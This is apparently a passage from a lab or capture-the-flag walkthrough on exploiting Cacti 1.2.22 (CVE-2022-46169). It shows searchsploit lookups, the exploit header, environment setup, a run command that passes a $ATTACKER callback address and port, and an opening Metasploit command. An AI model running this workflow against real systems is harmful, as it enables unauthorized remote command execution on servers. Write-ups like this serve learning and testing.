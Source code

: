Search for a possible vulnerability on this cacti version 1.2.22

```shell
searchsploit cacti
```

Result:

```text
------------------------------------------------------------- ---------------------------------
 Exploit Title                                               |  Path
------------------------------------------------------------- ---------------------------------
Cacti v1.2.22 - Remote Command Execution (RCE)               | php/webapps/51166.py
------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

### Exploitation

Get the exploit code for EDB-51166 :

```shell
searchsploit -m 51166
```

In the header of the python code, there are some more information:

```python
 # Exploit Title: Cacti v1.2.22 - Remote Command Execution (RCE)
 # Exploit Author: Riadh BOUCHAHOUA
 # Discovery Date: 2022-12-08
 # Vendor Homepage: https://www.cacti.net/
 # Software Links : https://github.com/Cacti/cacti
 # Tested Version: 1.2.2x <= 1.2.22
 # CVE: CVE-2022-46169
```

This is CVE-2022-46169, and cacti version match well.

There is a dependency on httpx python libvrary, so we can setup a python virtual environment and install this dependency :

```shell
virtualenv -p python3 .venv
. .venv/bin/activate
pip install httpx
```

This exploit can be executed with this command :

```shell
python3 ./51166.py -u http://$TARGET -p 4444 -i $ATTACKER
```

But this do not seem to work, there is a timeout every time.

We could try with Metasploit, since this exploit is referenced :

```shell
msfconsole -q 
```

